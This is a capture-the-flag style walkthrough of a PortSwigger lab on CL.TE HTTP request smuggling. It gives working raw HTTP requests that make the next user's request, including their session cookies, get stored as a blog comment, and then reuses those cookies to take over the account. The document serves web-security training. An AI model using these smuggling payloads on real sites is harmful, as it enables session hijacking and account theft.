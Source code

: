 
# Exploiting HTTP request smuggling to capture other users' requests

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

Notes: 

- Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

- The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.

Hint: If you encounter a timeout, this may indicate that the number of bytes you're trying to capture is greater than the total number of bytes in the subsequent request. Try reducing the Content-Length specified in the smuggled request prefix.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/exploiting







![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/1.png)
![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/2.png)

---------------------------------------------


There is a function to send comments:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/3.png)


It generates a POST request:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/4.png)


"Front-end server doesn't support chunked encoding" means this page suffers a CL.TE type of HTTP request smuggling. Intercept a request to “/”, change the method to POST and the protocol to "HTTP/1":

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Content-Length: 3

a
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/5.png)


Then substitute the request to "/my-account" for a request to "/post/comment":

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 928
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: session=ttGG2cUnVqyKIgqM36GrG5iprUDMiqhi
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net
Referer: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 200

csrf=QZmH5dI3PgwPOQ8uw6OD1YHk0xhjvvgB&postId=10&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com&comment=
```

We can see our following request is written in the comments section:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/6.png)


We increase the "Content-Length" value and see the victim's request is written, until the cookie appears:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 928
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: session=ttGG2cUnVqyKIgqM36GrG5iprUDMiqhi
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net
Referer: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 930

csrf=QZmH5dI3PgwPOQ8uw6OD1YHk0xhjvvgB&postId=10&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com&comment=
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/7.png)


Finally, access /my-account with those cookies:

```
GET /my-account HTTP/2
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: victim-fingerprint=XchbXstfr9kMYumQzHglvn9Sg1z4pxSs; secret=aM45zL11YFFQCrtomCCbsY5NztXRhRBV; session=KmVDLu3qlwSNTsfOENJ0hm1Gnji4qT88
...
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests/8.png)
